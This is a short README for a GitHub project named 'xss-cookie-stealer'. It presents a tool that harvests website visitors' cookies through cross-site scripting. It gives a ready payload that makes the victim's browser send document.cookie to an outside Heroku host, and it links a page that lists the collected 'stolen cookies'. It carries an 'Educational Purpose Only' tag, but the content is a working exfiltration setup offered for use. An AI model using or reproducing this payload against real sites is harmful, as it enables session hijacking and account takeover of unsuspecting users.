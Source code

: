 # xss-cookie-stealer
Collects user's cookie with XSS vulnerability.

## Demo
[Click Here](https://inwza007.herokuapp.com/)

## Usage
*Educational Purpose Only*

Use Cross Site Scripting vulnerability to force user make GET request to ```"https://inwza007.herokuapp.com/stealcookie?c="+document.cookie```

[See all stolen cookies](https://inwza007.herokuapp.com/cookies)

## Author
[Nisaruj R.](https://github.com/nisaruj)
